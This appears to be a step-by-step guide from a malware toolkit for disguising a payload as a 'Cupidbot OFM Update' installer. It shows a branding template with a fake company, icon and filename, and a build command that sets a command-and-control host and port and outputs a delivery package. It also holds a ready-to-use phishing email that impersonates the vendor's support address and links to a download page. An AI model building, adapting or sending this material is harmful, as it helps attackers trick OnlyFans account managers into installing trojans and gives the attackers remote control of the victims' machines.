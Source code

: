 #### 1. Add Template to payload_brander.py

**File:** `tools/payload_brander.py`

**Add this to the `TEMPLATES` dict (around line 45):**

```python
"cupidbot_ofm": {
    "company": "Cupidbot Technologies, Inc.",
    "product": "Cupidbot OFM Update",
    "description": "AI-powered OnlyFans management and automation update",
    "copyright": "Cupidbot Technologies, Inc.",
    "icon": "brand_templates/cupidbot_ofm/logos/icon.ico",
    "filename": "Cupidbot-OFM-Update-v2.1.5.exe",
    "version": "2.1.5.0"
},
```

#### 2. Build the Payload

```bash
python3 tools/payload_brander.py \
  --template cupidbot_ofm \
  --c2-host 192.168.1.100 \
  --c2-port 443 \
  --delivery-package
```

**Output:**
```
✅ Cupidbot-OFM-Update-v2.1.5.exe
✅ Landing page (index.html)
✅ Email templates (README.md)
✅ Deployment instructions
```

---

## 📧 Email Templates (Ready to Use)

### Template 1: New Features (High Success)

```
From: support@cupidbot.ai
Subject: 🚀 Cupidbot OFM v2.1.5 - New AI Features!

Hey [Name],

Big news! We just dropped Cupidbot OFM 2.1.5 and you're 
going to love what's inside.

✨ NEW: AI Content Generation 2.0
Our AI just got 10x smarter. Generate engaging captions 
and DM responses in seconds.

📊 NEW: Real-Time Revenue Analytics  
See exactly what content drives the most income with our 
new analytics dashboard.

⚡ NEW: Smart Auto-Scheduling
Post automatically at optimal times for maximum reach.

Ready to upgrade?
👉 Download here: https://updates.cupidbot.ai/ofm

Free for all OFM users. Takes 2 minutes to install.

```